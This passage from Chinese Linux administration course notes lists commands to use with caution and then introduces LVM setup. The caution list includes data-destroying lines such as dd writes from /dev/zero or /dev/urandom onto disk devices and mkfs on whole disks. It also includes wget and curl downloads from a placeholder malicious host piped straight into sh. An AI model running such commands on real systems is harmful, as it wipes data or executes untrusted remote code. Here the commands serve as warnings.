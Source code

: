 
2、慎用覆盖式输出重定向

    > file
	someCMD > file


3、慎用字符设备

* /dev/null
* /dev/zero
* /dev/urandom 

```
mv somefile|somedir /dev/null
cp /dev/null somefile|somedir
dd if=/dev/random of=somefile
dd if=/dev/urandom of=/dev/sdbX bs=4k count=10 seek=100
dd if=/dev/zero of=somefile
dd if=/dev/zero of=/dev/sdX bs=446 count=1
```

4、慎用文件系统 创建/更改尺寸 命令

    mkfs -t ext3|ext4|xfs /dev/sda
	mkfs -t ext3|ext4|xfs /dev/sda1
	resize2fs /dev/sdb1

	
5、慎用通过管道直接执行 shell 脚本

    wget http://malicious_source -O- | sh
	curl http://malicious_source -O- | sh

# CH04U04 - 磁盘限额


# CH04U05 - LVM

## 什么是逻辑卷管理器（LVM）？

* 允许对卷进行方便操作的抽象层，包括重新设定文件系统的大小
* 允许在多个物理设备间重新组织文件系统
  * 将设备指定为物理卷
  * 用一个或者多个物理卷来创建一个卷组
  * 物理卷是用固定大小的物理区域（Physical Extent，PE）来定义的
  * 在物理卷上创建的逻辑卷是由物理区域（PE）组成的
  * 可以在逻辑卷上创建文件系统

## 创建逻辑卷

* 创建物理卷
      pvcreate  /dev/sda3
* 为卷组分配物理卷
      vgcreate  vg0  /dev/sda3
* 从卷组创建逻辑卷
      lvcreate -L 256M  -n data  vg0
      mkfs.ext4 /dev/vg0/data
